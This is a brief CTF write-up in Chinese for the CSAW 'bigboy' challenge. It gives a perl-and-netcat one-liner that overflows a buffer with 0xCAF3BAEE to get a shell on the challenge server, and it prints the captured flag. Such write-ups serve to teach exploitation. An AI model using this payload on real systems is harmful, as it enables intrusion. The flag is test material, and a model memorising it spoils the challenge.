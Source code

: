# bigboy

把16到24 bytes蓋成`0xCAF3BAEE`就能直接get shell

payload:

`(perl -e 'print "a"x16,"\x00\x00\x00\x00\xee\xba\xf3\xca"';cat) | nc pwn.chal.csaw.io 9000`

flag:

`flag{Y0u_Arrre_th3_Bi66Est_of_boiiiiis}`
